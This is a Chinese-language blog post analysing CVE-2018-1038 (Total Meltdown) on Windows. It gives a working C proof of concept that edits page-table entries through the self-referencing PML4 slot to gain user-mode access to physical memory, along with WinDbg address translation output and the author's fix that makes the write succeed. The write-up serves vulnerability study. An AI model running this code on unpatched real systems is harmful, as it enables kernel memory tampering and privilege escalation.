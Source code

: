 ```yaml
---
layout: post
title:  "CVE-2018-1038：TotalMeltdown漏洞分析的一点记录"
date:   2018-04-11 11:30:00
categories: 漏洞分析
tags: [漏洞分析]
---
```


<!-- more -->

### 漏洞分析

参考链接中对漏洞分析已经很清晰了，本来是想对PD项也进行权限改写，但是添加代码后（如下代码：）

```

#include 
#include 
#include 

#define QWORD unsigned long long

#define BASE 0xFFFF000000000000

#define PML4 0xFFFFF6FB7DBED000

#define PML4SELF_IDX 0x1ed

QWORD getAddr(QWORD base, QWORD pml4Idx, QWORD pdptIdx, QWORD pdIdx, QWORD ptIdx, QWORD offsetIdx);


void testAddr(unsigned char *p);

int main(int argc, char *argv)
{
	unsigned char *temp = (unsigned char *)0xFFFFF6FB7DBED000;

	unsigned char *p = (unsigned char*)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 1, 0);//到达PDPT
	testAddr(p);
	QWORD *pdpte = (QWORD *)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 8);
	*pdpte = (*pdpte | 7);
	testAddr(p);

//添加部分

	unsigned char *pd = (unsigned char*)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, 1, 5, 0x0);//到达PD
	testAddr(pd);
	QWORD *pde = (QWORD *)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 1, 40);
	*pde = (*pde | 7);
	testAddr(pd);
	
	system("pause");
	return 0;
}


QWORD getAddr(QWORD base, QWORD pml4Idx, QWORD pdptIdx, QWORD pdIdx, QWORD ptIdx, QWORD offsetIdx) {
	base = base + offsetIdx + (ptIdx << 12) + (pdIdx << 21) + (pdptIdx << 30) + (pml4Idx << 39);
	return base;
}

void testAddr(unsigned char *p) {
	__try {
		int i = *p;
		memcpy(p + 40, "\x00\x00\x00\x00\x00\x02\x00\x00", 8);
		printf("access 0x%p sucess\n", p);
	}
	__except (EXCEPTION_EXECUTE_HANDLER) {
		printf("access 0x%p error\n", p);
	
	}
}

```

发生错误，所以就对原因进行探究。首先是对虚拟地址转化成物理地址的过程进行分析，如下图：

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/5.png)

实际调试过程如下：

两个地址的分解结果：

```
kd> .formats 0xFFFFF6FB7DA01000
Evaluate expression:
  Hex:     fffff6fb`7da01000
  Decimal: -9914971844608
  Octal:   1777777557557550010000
  Binary:  11111111 11111111 11110110 11111011 01111101 10100000 00010000 00000000
  Chars:   ....}...
  Time:    ***** Invalid FILETIME
  Float:   low 2.65949e+037 high -1.#QNAN
  Double:  -1.#QNAN
```
```
11111111 11111111 
11110110 1 ：0x1ED (PML4 index)
1111011 01 : 0x1ED (PDPT index)
111101 101 : 0x1ED (PD index)
00000 0001 : 0x1 (PT index)
0000 00000000 (OFFSET)
```

---

```
kd> .formats 0xfffff6fb40205000
Evaluate expression:
  Hex:     fffff6fb`40205000
  Decimal: -9916003627008
  Octal:   1777777557550010050000
  Binary:  11111111 11111111 11110110 11111011 01000000 00100000 01010000 00000000
  Chars:   ....@ P.
  Time:    ***** Invalid FILETIME
  Float:   low 2.50488 high -1.#QNAN
  Double:  -1.#QNAN

11111111 11111111 
11110110 1 : 0x1ED(PML4 index)
1111011 01 : 0x1ED(PDPT index)
000000 001 : 0x1 (PD index)
00000 0101 : 0x5 (PT index)
0000 00000000 (OFFSET)
 
```

查看cr3寄存器的值

```
kd> rM 80
cr0=0000000080050031 cr2=fffff900c22eb000 cr3=0000000000187000
cr8=000000000000000f
```

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/2.jpg)

得到PFN是0x00187，将PFN*PageSize得到下一级结构PDPT的基址，然后使用pdpt_index来索引PDPT，通过计算PDPT的基址为0x00187000,依然指向的是PML4.
继续计算PD的基址也是0x00187000，最后剩下PT的基址也为0x00187000,所以0xFFFFF6FB7DA01000转化成的物理地址为：0x0000000000000000

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/3.jpg)

经过分析发现之前修改PD项权限错误的原因是PDPT项被映射到了0x0地址上，而0x0上填充的内容超过了映射地址范围，经过测试映射范围最大为0x7ff`ffff`ffff。

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/4.jpg)

所以将要映射的地址填成这个范围就可以成功了。

```
memcpy(p + 40, "\x00\x00\x00\x00\x00\x02\x00\x00", 8);
```

运行效果图：

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/6.jpg)

### 参考链接

https://www.coresecurity.com/blog/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-2-windows

https://bbs.pediy.com/thread-224348.htm

http://blog.frizk.net/2018/03/total-meltdown.html

https://cert.360.cn/warning/detail?id=b58c185c339521ee4e31674d36cd36e3